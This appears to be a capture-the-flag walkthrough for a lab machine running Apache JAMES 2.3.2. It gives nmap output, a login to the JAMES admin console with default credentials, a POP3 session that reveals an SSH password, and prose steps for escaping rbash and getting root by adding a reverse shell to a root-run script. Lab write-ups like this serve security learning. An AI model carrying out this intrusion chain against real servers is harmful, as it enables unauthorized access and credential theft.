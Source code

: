 Started with a nmap scan
```
PORT     STATE SERVICE     REASON         VERSION
22/tcp   open  ssh         syn-ack ttl 63 OpenSSH 7.4p1 Debian 10+deb9u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 77:00:84:f5:78:b9:c7:d3:54:cf:71:2e:0d:52:6d:8b (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCp5WdwlckuF4slNUO29xOk/Yl/cnXT/p6qwezI0ye+4iRSyor8lhyAEku/yz8KJXtA+ALhL7HwYbD3hDUxDkFw90V1Omdedbk7SxUVBPK2CiDpvXq1+r5fVw26WpTCdawGKkaOMYoSWvliBsbwMLJEUwVbZ/GZ1SUEswpYkyZeiSC1qk72L6CiZ9/5za4MTZw8Cq0akT7G+mX7Qgc+5eOEGcqZt3cBtWzKjHyOZJAEUtwXAHly29KtrPUddXEIF0qJUxKXArEDvsp7OkuQ0fktXXkZuyN/GRFeu3im7uQVuDgiXFKbEfmoQAsvLrR8YiKFUG6QBdI9awwmTkLFbS1Z
|   256 78:b8:3a:f6:60:19:06:91:f5:53:92:1d:3f:48:ed:53 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBISyhm1hXZNQl3cslogs5LKqgWEozfjs3S3aPy4k3riFb6UYu6Q1QsxIEOGBSPAWEkevVz1msTrRRyvHPiUQ+eE=
|   256 e4:45:e9:ed:07:4d:73:69:43:5a:12:70:9d:c4:af:76 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIMKbFbK3MJqjMh9oEw/2OVe0isA7e3ruHz5fhUP4cVgY
25/tcp   open  smtp        syn-ack ttl 63 JAMES smtpd 2.3.2
|_smtp-commands: solidstate Hello nmap.scanme.org (10.10.16.4 [10.10.16.4])
80/tcp   open  http        syn-ack ttl 63 Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Home - Solid State Security
| http-methods: 
|_  Supported Methods: HEAD GET POST OPTIONS
110/tcp  open  pop3        syn-ack ttl 63 JAMES pop3d 2.3.2
119/tcp  open  nntp        syn-ack ttl 63 JAMES nntpd (posting ok)
4555/tcp open  james-admin syn-ack ttl 63 JAMES Remote Admin 2.3.2
```
This machine is running `Apache JAMES` and its running version `2.3.2` and its vulnerable to `cve-2015-7611` with default creds `root:root` we can now auth to this `telnet 10.10.10.51 4555` and we can list users and change users passwords and then we can login as that user and read there emails the user who has the goods is `mindy` and then we connect to the email server `telnet 10.10.10.51 110` we can read her emails and get a login  
```
telnet 10.10.10.51 110 
Trying 10.10.10.51...
Connected to 10.10.10.51.
Escape character is '^]'.
mindy
root
+OK solidstate POP3 server (JAMES POP3 Server 2.3.2) ready 
-ERR
-ERR
USER mindy
+OK
PASS root
+OK Welcome mindy
HELP    
-ERR
list
+OK 2 1945
1 1109
2 836
.
RETR 2
+OK Message follows
Return-Path: <mailadmin@localhost>
Message-ID: <16744123.2.1503422270399.JavaMail.root@solidstate>
MIME-Version: 1.0
Content-Type: text/plain; charset=us-ascii
Content-Transfer-Encoding: 7bit
Delivered-To: mindy@localhost
Received: from 192.168.11.142 ([192.168.11.142])
          by solidstate (JAMES SMTP Server 2.3.2) with SMTP ID 581
          for <mindy@localhost>;
          Tue, 22 Aug 2017 13:17:28 -0400 (EDT)
Date: Tue, 22 Aug 2017 13:17:28 -0400 (EDT)
From: mailadmin@localhost
Subject: Your Access

Dear Mindy,


Here are your ssh credentials to access the system. Remember to reset your password after your first login. 
Your access is restricted at the moment, feel free to ask your supervisor to add any commands you need to your path. 

username: mindy
pass: P@55W0rd1!2@

Respectfully,
James
```
And we can use this login to SSH into the host machine but when we do it drops us in a rbash shell and we cant run a lot of commands but there is a exploit on `exploit-DB` that we can use and injections in the login banner of the ssh server a reverse shell we run the exploit then relog in and we got `mindy` but in a normal shell now we can get linpeas on the machine but the output did not have anything that stood out so going to switch to `pspy` but we need the 32 bit version and we have a python script being ran `/opt/tmp.py` that removes all the file in the `/tmp` but we can edit this script and add a reverse shell and then wait for about 3 minutes and we get a root shell back 